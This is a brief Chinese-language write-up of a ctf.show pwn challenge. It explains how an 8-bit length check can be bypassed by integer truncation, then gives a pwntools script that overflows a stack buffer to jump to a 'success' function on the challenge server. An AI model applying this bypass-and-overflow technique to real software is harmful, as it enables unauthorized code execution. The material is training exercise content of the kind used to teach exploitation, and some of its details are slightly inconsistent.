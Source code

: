 # 挑战简介
看着好像没啥问题

# 思路
看着确实没什么问题，但是在数据类型上还是踩雷了  

你输入的是字符串，转化为无符号数字后，最高能到256，而检测的只检测8位，也就是后8位，258后8位全0  

所以，你的输入要首先垫入256个数，再加4才能真正跳过检测  

依旧是简单的栈溢出  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28215)

elf = ELF('D:\edge 下载\pwn')

backdoor = elf.symbols['success']

io.recvuntil(b'[+] Check your permissions:')    

payload = b'a' * (0x11 + 0x4) + p32(backdoor)

payload = payload.ljust(0x104, b'a')

io.sendline(payload)

io.interactive()
```
